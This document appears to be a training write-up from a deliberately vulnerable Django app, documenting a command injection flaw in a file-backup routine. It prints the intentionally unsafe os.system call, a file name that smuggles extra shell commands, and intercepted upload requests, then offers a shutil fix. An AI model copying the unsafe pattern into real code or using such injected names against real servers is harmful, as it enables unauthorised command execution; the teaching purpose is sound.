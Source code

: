 # A1: Command Injection

### Description

An OS command injection attack occurs when an attacker tries to execute system level commands through a vulnerable application.

The vulnerability can be found at app/models/Benefits/benefits.py
```
@staticmethod
def save_data(file, backup=None):
    data_path = os.path.join(settings.MEDIA_ROOT, "data")
    full_file_name = os.path.join(data_path, file.name)
    # the uploaded file is read at once, as duplicated in railsgoat
    # use file.chunk() in a loop can prevent overwhelming system memory
    content = ContentFile(file.read())
    default_storage.save(full_file_name, content)
    if backup == "true":
        return Benefits.make_backup(file, data_path, full_file_name)

@staticmethod
@silence_streams
def make_backup(file, data_path, full_file_name):
    if os.path.isfile(full_file_name):
        epoch_time = int(time.time())
        bak_file_path = "%s/bak%d_%s" % (data_path, epoch_time, file.name)
        # intended vulnerability for command injection
        os.system("cp %s %s" % (full_file_name, bak_file_path))
        return bak_file_path
```

The code executes system level command with user uploaded file name in string. A user can upload a file named with system commands to execute a command injection attack.

### Why would someone do this?

When people try to copy a file from source to destination in their own computer, the system command cp may be the most intuitive option.

However, it is not a good practice to interpolate user input string into a system command.

### Attack

#### Intercepting Proxy Method
This is one way of doing a command injection:
1. Set up an intercepting proxy
2. Create a file named "; ls; mkdir hacked; cp"
3. Login and navigate to benefit forms page
4. Upload the file "; ls; mkdir hacked; cp"
5. Intercept the POST request, which should look like:
    ```
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="csrfmiddlewaretoken"
     
    W8E9x5u23dYaKOrLZus6XG2j99fZfu8uGMs73HnV2fvP2Yqc9UVQD8Pkgq8UYIRQ
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="myfile"; filename="; ls; mkdir hacked; cp"
    Content-Type: application/octet-stream
     
     
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="backup"
     
    False
    ------WebKitFormBoundary0tXzAPCVysul0K4b--
    ```
6. Change the False to true at backup, resend the request, the new request should look like:
    ```
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="csrfmiddlewaretoken"
     
    W8E9x5u23dYaKOrLZus6XG2j99fZfu8uGMs73HnV2fvP2Yqc9UVQD8Pkgq8UYIRQ
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="myfile"; filename="; ls; mkdir hacked; cp"
    Content-Type: application/octet-stream
     
     
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="backup"
     
    true
    ------WebKitFormBoundary0tXzAPCVysul0K4b--
    ```
7. You should be able to see 'ls' is executed from terminal, and there is a newly created directory named 'hacked' in DjanGoat base directory.


 #### Bypass Intercepting Proxy Method
 1. Create a file named "; ls; mkdir hacked; cp"
 2. Login and navigate to benefit forms page
 3. Upload the file "; ls; mkdir hacked; cp" 
 4. Check 'Backup?' checkbox
 5. Press Upload Button
 6. You should see there is a newly created directory named 'hacked' in DjanGoat base directory. 

### Solution

Instead of directly using system calls, we can use file modules such as ```shutil``` to help copy the file.
